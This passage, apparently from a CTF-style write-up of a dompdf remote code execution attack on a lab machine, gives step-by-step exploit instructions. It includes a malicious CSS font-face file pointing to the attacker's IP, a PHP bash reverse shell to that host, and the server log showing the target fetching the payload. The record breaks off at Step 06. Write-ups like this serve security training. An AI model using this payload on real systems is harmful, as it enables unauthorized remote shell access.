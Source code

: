 Change `exploit.css` and add your `ip` as it i placed mine
```
@font-face {
    font-family:'exploitfont';
    src:url('http://10.10.14.94/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
```
**Step 02**

Change the `exploit_font.php` and the following line at the very bottom of the file and do not forget to replace the `ip` and `port`.
```
<?php exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.94/1234 0>&1'"); ?>
```
**Step 03**

Start `python` server to make sure that the file is being sent to the server and delivered successfully. 
```
┌──(gemstone㉿hashghost)-[~/…/interface/exploit/dompdf-rce/exploit]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
**Step 04**

Send the file with as parameter.

![image](/assets/img/interface/05.png)

**Step 05**

Check for the response 
```
┌──(gemstone㉿hashghost)-[~/…/interface/exploit/dompdf-rce/exploit]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.200 - - [31/Mar/2023 00:00:39] "GET /exploit.css HTTP/1.0" 200 -
10.10.11.200 - - [31/Mar/2023 00:00:39] "GET /exploit_font.php HTTP/1.0" 200 -
```
**Step 06**
